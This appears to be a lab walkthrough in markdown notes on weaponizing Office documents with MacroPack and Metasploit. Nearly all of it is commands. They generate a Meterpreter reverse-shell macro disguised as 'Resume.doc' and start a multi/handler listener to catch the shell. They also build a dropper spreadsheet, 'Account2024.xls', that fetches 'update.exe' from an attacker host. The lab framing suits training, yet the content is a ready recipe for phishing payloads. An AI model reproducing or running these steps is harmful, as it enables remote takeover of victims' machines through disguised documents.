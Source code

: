 ### LAB Demo : Automating Macro Development using MacroPack

- Requirements:
  1. A Windows sys with MacroPack and Metasploit installed (Resource Development and Weaponization System)
  2. A Second Win System that we connected with RDP (To Test Out Our Work)

```powershell
# =======================================================================
# Creating a Rev Shell with MSFvenom and MacroPack :
# =======================================================================
# In our Resource-Dev Machine we open the Powershell from the installed MacroPack folder path.
PS C:\Users\Administrator\Desktop\macro_pack> dir # listing ..
PS C:\Users\Administrator\Desktop\macro_pack> .\macro_pack.exe --help # To Desplay the tool help menu. Very Recommended to Read it.
PS C:\Users\Administrator\Desktop\macro_pack> .\macro_pack.exe --listformats # To Desplay all formats.
# -------------
# It Works With Piping :
PS C:\Users\Administrator\Desktop\macro_pack> echo "calc.exe" | .\macro_pack.exe -t CMD -o -G "test.doc" # This May take some time
# -------------
# Creating a Custom Meterpreter Reverse Shell Macro using MSFVenom & MacroPack:
PS C:\Users\Administrator\Desktop\macro_pack> .\macro_pack.exe --listtemplates # To list all templates that we can use, ***Very Recommended to Read it.***
PS C:\Users\Administrator\Desktop\macro_pack> msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<yourIP> LPORT=4643 -f vba | .\macro_pack.exe -o -G "Resume.doc"
# -------------
# After Finishing Creation, Set up your Listener .. OFC You can use whatever you want to handle this!
PS C:\Users\Administrator\Desktop\macro_pack> msfconsole.bat
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)> set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler)> set LHOST=<yourIP>
msf6 exploit(multi/handler)> set LPORT=4643
msf6 exploit(multi/handler)> run
# -------------
# Choose Whatever the payload Delevery Option you want ...
# If every thing goes Right you will get a Rev-shell ..
# -------------------------------------------------------------------------

# =======================================================================
# Creating a Dropper with MSFvenom and MacroPack :
# =======================================================================
PS C:\Users\Administrator\Desktop\macro_pack> msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<yourIP> LPORT=4643 -f exe > update.exe
PS C:\Users\Administrator\Desktop\macro_pack> echo "https://TheAtteckerHost/update.exe" "update.exe" | .\macro_pack.exe -t DROPPER -o -G "Account2024.xls"
# Set up your Listener.. Just like we did ...
# Choose Whatever the payload Delevery Option you want ...
# If everything goes right you should get a shell ...
```

---